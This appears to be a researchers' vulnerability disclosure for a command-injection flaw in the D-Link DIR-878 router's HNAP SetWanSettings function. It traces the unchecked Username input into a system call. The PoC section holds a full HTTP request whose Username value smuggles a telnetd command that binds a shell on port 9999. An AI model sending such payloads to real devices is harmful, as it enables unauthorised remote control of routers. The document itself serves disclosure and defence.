







# D-Link Vulnerability

Vendor:D-Link

Product:DIR_878

Version:DIR_878_FW1.30B08_Hotfix_02(Download Link:https://support.dlink.com/ProductInfo.aspx?m=DIR-878)

Type:Command Execution

Author:Jiaqian Peng,Huizhao Wang

Institution:pengjiaqian@iie.ac.cn,wanghuizhao@iie.ac.cn


## Vulnerability description

We found an Command Injection vulnerability  in D-link Technology router with firmware which was released recently.A command Injection vulnerability allows attackers to execute arbitrary OS commands via a crafted /HNAP1 POST request. This occurs when any HNAP API function triggers a call to the `system` function with untrusted input from the request body for the `SetWanSettings` API function (PPTP,need authentication).

**Command Execution**

`prog.cgi` binary:

In `SetWanSettings` function,`Username`、`Password` is directly passed by the attacker.After that, call the function sub_4661DC.

<div  align="center"></div>

As you can see here, the input has not been checked.And then,call the function nvram_safe_set to store this input.

<div  align="center"></div>

`rc` binary:

<div  align="center"></div>

Eventually, the initial input will be extracted and cause command injection.

<div  align="center"></div>

**Supplement**

In order to avoid such problems, we believe that the string content should be checked in the input extraction part.What’s more interesting is that in the front-end interface, the user’s input is not checked either.


## PoC

We set `Username` as **';telnetd -l /bin/sh -p 9999 -b 0.0.0.0;echo'** , and the router will excute it,such as:

```http
POST /HNAP1/ HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/xml
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: text/xml
SOAPACTION: "http://purenetworks.com/HNAP1/SetWanSettings"
HNAP_AUTH: BDDA68629752DBE57718D89602A836E5 1638772968264
Content-Length: 1114
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/Internet.html
Cookie: uid=4DsfjbH6

<?xml version="1.0" encoding="UTF-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
	<soap:Body>
		<SetWanSettings xmlns="http://purenetworks.com/HNAP1/">
			<Type>StaticPPTP</Type>
			<Username>';telnetd -l /bin/sh -p 9999 -b 0.0.0.0;echo'</Username>
			<Password>e6c8b6d180e425ff4ca7b82f02b172861c13b6d130e425294ca7d32f024372861c13b6d130e425294ca7d32f024372861c13b6d130e425294ca7d32f02437286</Password>
			<MaxIdleTime>300</MaxIdleTime>
			<HostName/>
			<VPNIPAddress/>
			<VPNSubnetMask/>
			<VPNGateway/>
			<ServiceName>119.75.217.109</ServiceName>
			<AutoReconnect>false</AutoReconnect>
			<IPAddress>192.168.0.5</IPAddress>
			<SubnetMask>255.255.255.0</SubnetMask>
			<Gateway>192.168.0.1</Gateway>
			<ConfigDNS>
				<Primary>162.242.211.137</Primary>
				<Secondary>78.46.223.24</Secondary>
			</ConfigDNS>
			<MacAddress/>
			<MTU>1400</MTU>
			<DsLite_Configuration/>
			<DsLite_AFTR_IPv6Address/>
			<DsLite_B4IPv4Address/>
		</SetWanSettings>
	</soap:Body>
</soap:Envelope>
```

<div  align="center"></div>

<div  align="center"></div


## Result

This will triger the `start_wan` method, and then get a shell!

<div  align="center"></div>
